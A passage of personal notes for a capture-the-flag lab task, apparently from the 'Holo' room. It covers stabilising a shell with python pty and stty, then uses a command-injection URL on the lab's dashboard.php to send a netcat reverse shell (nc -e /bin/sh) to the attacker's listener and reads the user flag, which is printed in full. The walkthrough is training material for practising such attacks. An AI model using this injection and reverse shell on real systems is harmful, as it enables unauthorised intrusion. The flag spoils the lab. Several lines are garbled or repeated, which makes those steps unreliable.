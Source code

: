 Now that we have a shell on the box, we want to stabilize our shell. For the most part, stabilizing shells is straightforward by using other utilities like python to help; however, some steps can take longer or change depending on the shell you use. The below instructions will be for bash and ZSH; any other shells or operating systems, you will need to do your research on stabilizing shells within their environment.  

Instructions found throughout this room are inspired by this fantastic blog post, [https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/). All credit for the techniques shown goes to ropnop.  

There are several ways to stabilize a shell; we will be focusing on using python to create a pseudo-terminal and modifying stty options. The steps are the same for all target machines, but they may differ depending on the shell or operating system used on your attacking machine.  

To begin, we will create a pseudo-terminal using python. The command can be found below.  

Syntax: `python3 -c 'import pty; pty.spawn("/bin/bash")'`

Once we have a pseudo shell, we can pause the terminal and modify stty options to optimize the terminal. Follow the steps below exactly for bash shells.  

1. `stty raw -echo`

2. `fg`

**Note****:** If you're u> [!INFO]
You have shell onto  L-SRV01.sing ZSH, you **must** combine `stty raw -echo;fg`  onto one line, or else your shell will break  

At this point, you will get your pseudo-terminal back, but you may notice that whatever you type does not show up. For the next step, you will need to type blindly.  

3. `reset`

4. `export SHELL=BASH`

For the next two steps, you will need to use the information you got from step 1. 

5. `export SHELL=BASH`

6. `export TERM=<TERMINAL>`

7. `stty rows <num> columns <cols>`


---

# Your job

## Reverse Shell

- Payload is: `nc+-e+/bin/sh+<tun0 IP>+4444`.
	This tells netcat to send /bin/sh command line to your IP and port. Putting this into the RCE, you get the following URL:
	`admin.holo.live/dashboard.php?cmd=nc+-e+/bin/sh+<tun0 IP>+4444`
- Visit the URL on the browser or on Burp Suite Repeater.

	![[Task 14 - Meterpreter session 1 closed. Reason RUH ROH-20240910150700382.webp]]

## Listener

- On your attacking machine open a netcat listener.

	`nc -lnvp 4444`

- On Repeater click "Send".
	![[Task 14 - Meterpreter session 1 closed. Reason RUH ROH-20240910150823201.webp]]
	You got a Revers Shell.

> [!INFO]
You have shell onto  L-SRV01.
## Stabilize shell

In this case you'll have to use `python3`.
`python3 -c 'import pty; pty.spawn("/bin/bash")'`

## Flag on Docker container

- On the Reverse Shell go to `www-data@555e6e40ede0:/var/www$` and run:
	`cat user.txt`

	HOLO{175d7322f8fc53392a417ccde356c3fe}


- Submit the user flag on Task 4, question 1.


**Next step:** [[Task - 15 Docker? I hardly even know her!]]
